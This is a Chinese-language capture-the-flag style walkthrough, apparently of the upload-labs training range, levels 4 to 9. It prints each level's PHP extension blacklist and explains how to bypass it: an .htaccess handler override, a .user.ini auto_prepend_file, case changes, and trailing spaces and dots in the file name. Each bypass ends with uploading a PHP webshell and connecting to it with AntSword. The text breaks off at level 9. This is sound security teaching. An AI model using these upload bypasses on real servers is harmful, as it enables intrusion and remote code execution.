

或者打开网页，将这个链接打开，测试一下是否能被apace服务器解析，如果显示的是一句话木马，则是没有被解析


我的没改完，一直在报错。。。正常情况下是可以的

# 关卡4

### 关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	这里面的一堆黑名单记录，但唯独忘记加了.htaccess的配置文件

	绕过思路：
	可以利用这个.htaccess的文件进行绕过

### 步骤：
1、构造.htaccess文件内容
```
<FilesMatch "\.jpg$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
	解释：这个是将所有上传是.jpg文件后缀的都可以解析成php
2、再写一个一句话木马，phpinfo或者远程链接的都可以，然后将后缀改成.jpg文件
3、上传顺序为先上传.htaccess，在上传图片马
**注意：这个需要修改httpd.conf文件的模式，我的这个没做，原理就是这样的

# 关卡5


### 关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：这关把.htaccess文件禁用掉了，但是又把.user.ini文件没写进去

	绕过思路：
	利用.user.ini文件进行

	或者用方法二的试试

#### 方法一：
#### 步骤：
1、构造.user.ini文件
```php
auto_prepend_file = shell.gif
```

	解释：
	这个是所有文件都包含shell.gif这个文件
2、上传shell.php文件，抓包，将其修改为shell.gif，发送
记得检查上传之后文件的名称
3、链接

#### 方法二
	1、上传shell.php
	2、抓包
		修改信息，如下：

	3、蚂蚁剑链接

#  关卡6
### 关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	这里少了转小写的函数限制，可以用大小写绕过即可，找一个上面没有的php后缀进行绕过。
	Windows系统是不区分大小写的。
#### 步骤
1、上传shell.php文件
2、抓包拦截
	修改信息如下


3、蚂蚁剑链接
	链接的时候检查一下响应体里面的上传文件名称，这个把上传的文件名称修改了


#  关卡7
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	这里没有收尾去空，可以尝试绕过
#### 步骤
1、上传shell.php文件
2、抓包拦截
	修改信息如下：
	空格+.


3、蚂蚁剑链接

# 关卡8
### 关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	这里多了首位去空，少了个去除末尾的.我们可以用这个.来进行绕过
步骤：
	1、上传shell.php文件
	2、抓包拦截
		修改信息如下：

	3、蚂蚁剑链接

# 关卡9
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
